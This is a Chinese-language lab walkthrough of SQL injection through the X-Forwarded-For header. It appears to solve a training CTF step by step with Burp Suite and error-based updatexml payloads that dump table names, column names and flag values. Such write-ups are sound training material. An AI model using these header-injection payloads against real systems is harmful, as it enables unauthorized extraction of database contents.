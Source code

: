 ```yaml
---
date: "2020-12-14T00:00:00Z"
description: Head 注入 -  X-Forwarded-For 注入 （XFF）
keywords: SQL注入, head
tags:
- SQL注入
- 安全
title: Head 注入 -  X-Forwarded-For 注入 （XFF）
---
```


# Head 注入 -  X-Forwarded-For 注入 （XFF）



## 注意

1. burpsuite http 文件有自己的格式， HEAD 信息之间 **不能有** 空格。
2. `X-Forwarded-For` 单词不要写错。
3. `X-Forwarded-For` 在直接请求时，burpsuite 抓包中没有。 因此需要手工传入。
4. 在每一步都需要仔细认真，**切忌焦躁、贪多** ，事情往往就在最后一步事情平常心而导致失败。 

## 使用 burpsuite

```http
POST /Pass-09/index.php HTTP/1.1
Host: inject2.lab.aqlab.cn:81
Content-Length: 30
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://inject2.lab.aqlab.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://inject2.lab.aqlab.cn:81/Pass-09/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
X-Forwarded-For: 192.168.1.11&amp;#039;, updatexml(1,concat(0x7e,database(),0x7e),1) ) -- gg 

username=admin&amp;amp;password=123456

```

## 查询 FLAG

**1. 确认 XFF 可用**

```
X-Forwarded-For: 192.168.1.11&amp;#039;, updatexml(1,concat(0x7e,database(),0x7e),1) ) -- gg 
```

![](https://nc0.cdn.zkaq.cn/md/8461/e7291a30b0fa1d8d107325a12994b1b0_87272.png)

**2. 查询表名**

```sql
select group_concat(table_name) from information_schema.tables where table_schema=database()
```

```
X-Forwarded-For: 192.168.1.11&amp;#039;, updatexml(1,concat(0x7e,   (select group_concat(table_name) from information_schema.tables where table_schema=database())   ,0x7e),1) ) -- gg 
```

&amp;gt; result:  `flag_head,ip,refer,uagent,user` 

![](https://nc0.cdn.zkaq.cn/md/8461/3e2050c6a2d112ad6ca1a4be9af58a5f_44280.png)

**3. 查询字段名**

```sql
select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=&amp;#039;flag_head&amp;#039; 
```

```
X-Forwarded-For: 192.168.1.11&amp;#039;, updatexml(1,concat(0x7e,   (select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=&amp;#039;flag_head&amp;#039; )   ,0x7e),1) ) -- gg 
```

&amp;gt; result: Id,flag_h1

![](https://nc0.cdn.zkaq.cn/md/8461/9af47800b8c7abbe1fda4223c24e1459_48726.png)

**4. 查询数据**

```sql
select group_concat(flag_h1) from flag_head 
```

```
X-Forwarded-For: 192.168.1.11&amp;#039;, updatexml(1,concat(0x7e,   (select group_concat(flag_h1) from flag_head )   ,0x7e),1) ) -- gg 
```

&amp;gt; result:  zKaQ-YourHd,zKaQ-Refer,zKaQ-ipi

![](https://nc0.cdn.zkaq.cn/md/8461/76ad1a031d9b204c2537788e39809d2c_84160.png)


**5. updatexml 长度显示异常**

本以为结果 OK 了， 结果提交不了。 

自己分析上一次的返回截图， 发现其实返回结果并不全。 

**正常的应该是 `xx~` 结尾， 但此处不是**

![](https://nc0.cdn.zkaq.cn/md/8461/49e55df87ccb989ff19842c9c45ecb41_25478.png)


于是，直接查询字段， 使用 limit 限制返回结果数量。

```sql
select flag_h1 from flag_head limit 2,1
```

```
X-Forwarded-For: 192.168.1.11', updatexml(1,concat(0x7e,   (select flag_h1 from flag_head limit 2,1)   ,0x7e),1) ) -- gg 
```

> result:     XPATH syntax error: '~zKaQ-ipip~'

![](https://nc0.cdn.zkaq.cn/md/8461/bdf3da160835a6e8260816886f97c96f_88298.png)


## 0xGG

[BurpSuite 几个扩展的使用](https://zhuanlan.zhihu.com/p/27545785)

